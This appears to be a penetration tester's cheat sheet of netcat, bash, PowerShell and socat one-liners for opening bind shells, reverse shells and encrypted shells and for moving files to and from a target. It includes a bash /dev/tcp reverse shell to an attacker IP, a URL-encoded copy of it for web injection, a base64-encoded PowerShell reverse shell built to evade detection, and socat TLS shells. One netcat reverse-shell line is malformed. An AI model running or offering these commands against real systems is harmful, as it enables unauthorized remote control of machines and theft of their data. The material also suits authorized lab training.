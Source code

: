 - N.b. many commands below are being run as sudo to make use of a port in the 0-1024 range, since root is needed to bind a listener to a port <1024. Beyond this range this is not necessary.

## NETCAT

### Flags:
-n Skip DNS resolution
-v Verbose
-l Create listener
-p <port number> To specify port number

Create Listener:
`nc -nlvp <port to listen on>`
Make Connection:
`nc -nv <IP address> <port>`
Listen For File Transfer:
`nc -nlvp <port> > incoming`
Send File:
`nc -nv <IP address> <port> < file/to/transfer`
Create Bind Shell Windows:
`nc -nlvp <port> -e cmd.exe`
Send Reverse Shell Linux:
`cat /tmp/f | /bin/sh -i 2>&1 | nc -nl 127.0.0.1 4444 > /tmp/f`

## OTHER

Simple Reverse Shell Linux:
`bash -c “bash -i >& /dev/tcp/<OurIP>/4444 0>&1”`
When you inevitably need to URL encode (https://meyerweb.com/eric/tools/dencoder/):
`bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F<OurIP>%2F4444%200%3E%261%22`
Powershell Reverse Shell (Base64 Encoded):
`pwsh`
`$Text = '$client = New-Object System.Net.Sockets.TCPClient("<attacker IP>",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'`
`$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)`
`$EncodedText =[Convert]::ToBase64String($Bytes)`
`$EncodedText`
`powershell -enc <our Base64 encoded Powershell revshell>`
Powershell Simple HTTP Server (Doesn't seem to work after testing):
https://www.powershellgallery.com/packages/Start-WebServer/1.1/Content/Start-WebServer.ps1

## SOCAT

- N.b. Whenever we execute a shell we use `/bin/bash` if our target is a Linux machine, this must be substituted for `'cmd.exe', pipes` for Windows.

Bind Shell:
Set up our listener on the target, which will deliver a shell to anyone who tries to make a connection
`sudo socat -d -d TCP4-LISTEN:443 EXEC:/bin/bash`
Now just connect with the target
`socat - TCP4:<target IP>:443`
Reverse Shell:
Create listener on our machine
`sudo socat -d -d TCP4-LISTEN:443 STDOUT`
Send shell from target machine
`socat TCP4:<attacker IP>:443 EXEC:/bin/bash`
File Transfer (Attacker to Target):
Prepare listener on source that will send the file to any machine that makes a connection
`sudo socat TCP4-LISTEN:443,fork file:<filename>`
Connect to source from target
`socat TCP4:<IP address>:443 file:<received filename>,create`
Generate .pem:
Generate certificate on target machine
`openssl req -newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`
Create .pem from keyfile and certificate
`cat shell.key shell.crt > shell.pem`
Encrypted Bind Shell:
Begin listening for attempts to connect, and deliver a shell to anyone who tries
`sudo socat OPENSSL-LISTEN:443,cert=shell.pem,verify=0,fork EXEC:/bin/bash`
Connect like so
`socat - OPENSSL:<target IP>:443,verify=0`
Encrypted Reverse Shell:
Create listener on our machine
`sudo socat -d -d OPENSSL-LISTEN:443,cert=shell.pem,verify=0,fork STDOUT`
Send shell from target machine
`socat TCP4:<attacker IP>:443, verify=0 EXEC:/bin/bash`
